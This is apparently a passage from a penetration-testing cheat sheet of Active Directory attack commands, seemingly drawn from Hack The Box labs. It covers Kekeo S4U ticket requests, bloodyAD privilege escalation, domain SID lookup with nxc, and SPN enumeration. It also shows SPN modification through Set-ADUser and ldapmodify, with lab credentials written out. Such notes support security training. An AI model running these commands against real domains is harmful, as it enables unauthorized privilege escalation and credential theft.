 ```powershell
Kekeo.exe
tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>
```
{% endcode %}

## bloodyAD

{% code overflow="wrap" fullWidth="true" %}
```bash
# One of the best tools for AD privesc is bloodyAD and also accepts Kerberos authentication.
https://github.com/CravateRouge/bloodyAD
bloody-AD -h domain.local -u $USER -p $PASS --host $HOSTNAME get search --filter '(ObjectClass=ms...) --attr $ATTRIBUTE
```
{% endcode %}

## Find Domain SID

{% code overflow="wrap" fullWidth="true" %}
```bash
nxc ldap DC1.scrm.local -u sqlsvc -p Pegasus60 -k --get-sid
LDAP        DC1.scrm.local  389    DC1.scrm.local   [*]  x64 (name:DC1.scrm.local) (domain:scrm.local) (signing:True) (SMBv1:False)
LDAPS       DC1.scrm.local  636    DC1.scrm.local   [+] scrm.local\sqlsvc 
LDAPS       DC1.scrm.local  636    DC1.scrm.local   Domain SID S-1-5-21-2743207045-1827831105-2542523200
```
{% endcode %}

## Service Principal Names (SPNs)

{% code overflow="wrap" fullWidth="true" %}
```sh
setspn -L iis_service
Get-NetUser -SPN | select samaccountname,serviceprincipalname
nslookup.exe web01.domain.com

# Query SPN
ldapsearch -x -H ldap://$IP -D 'c.neri@vintage.htb' -w 'Zer0the0ne' -b "DC=vintage,DC=htb" "cn=svc_sql" servicePrincipalName 
Get-ADUser -Identity c.neri -Properties ServicePrincipalNames

# Add SPN
Set-ADUser -Identity c.neri -ServicePrincipalNames @{Add="cifs/vintage.htb"}
# FROM LINUX
# First, we configured a file with the modifications
└─$ cat spn.ldif                                                                                                                                                   
dn: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: cifs/dc01.vintage.htb
# Then we use ldapmodify with c.neri creds
└─$ ldapmodify -x -H ldap://$IP -D 'c.neri@vintage.htb' -W -f spn.ldif                                                                                                       
Enter LDAP Password:                                                                                                                                                         
modifying entry "CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb"                                                                                                              
```
{% endcode %}
